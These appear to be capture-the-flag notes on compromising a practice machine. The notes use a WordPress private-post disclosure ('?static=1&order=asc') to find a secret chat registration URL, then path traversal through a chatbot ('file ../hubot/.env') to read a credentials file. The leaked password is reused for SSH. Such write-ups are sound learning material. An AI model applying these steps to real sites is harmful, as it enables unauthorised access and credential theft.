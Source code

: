 ```Console
000103135:   400        10 L     45 W       347 Ch      "#pop3"

Total time: 0
Processed Requests: 114441
Filtered Requests: 114436
Requests/sec.: 0
```

### chat.office.paper
 * http://chat.office.paper/home
   * rocket.chat login page
   * webpage says: 'Registration can only be done using the secret registration URL!'

### Private posts:
`❯ searchsploit multiple/webapps/47690.md -m`
> so far we know that adding `?static=1` to a wordpress URL should leak its secret content
> 
> here are a few ways to manipulate the returned entries:
> 
> - `order` with `asc` or `desc`
> - `orderby`
> - `m` with `m=YYYY`, `m=YYYYMM` or `m=YYYYMMDD` date format
> 
> 
> in this case, simply reversing the order of the returned elements suffices and `http://wordpress.local/?static=1&order=asc` will show the secret content:

```
  Exploit: WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts
      URL: https://www.exploit-db.com/exploits/47690
     Path: /opt/homebrew/opt/exploitdb/share/exploitdb/exploits/multiple/webapps/47690.md
File Type: ASCII text
```
 * Vistied `http://office.paper/?static=1`
 * Found the following in the static page of the draft:
> # Secret Registration URL of new Employee chat system
> 
> http://chat.office.paper/register/8qozr226AhkCHZdyY
 * Registered login and reached an employee chat.
 * Bot in the chat called `recyclops` with various options:

>  Most frequently asked questions include:
> - What time is it?
> - What new files are in your sales directory?
> - Why did the salesman crossed the road?
> - What's the content of file x in your sales directory? etc.
 * Bot allows for directory navigation.
   * located the following credentials with the command `file ../hubot/.env`
```
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
```
 * Logged into SSH
   * Username: dwight
   * password: Queenofblad3s!23
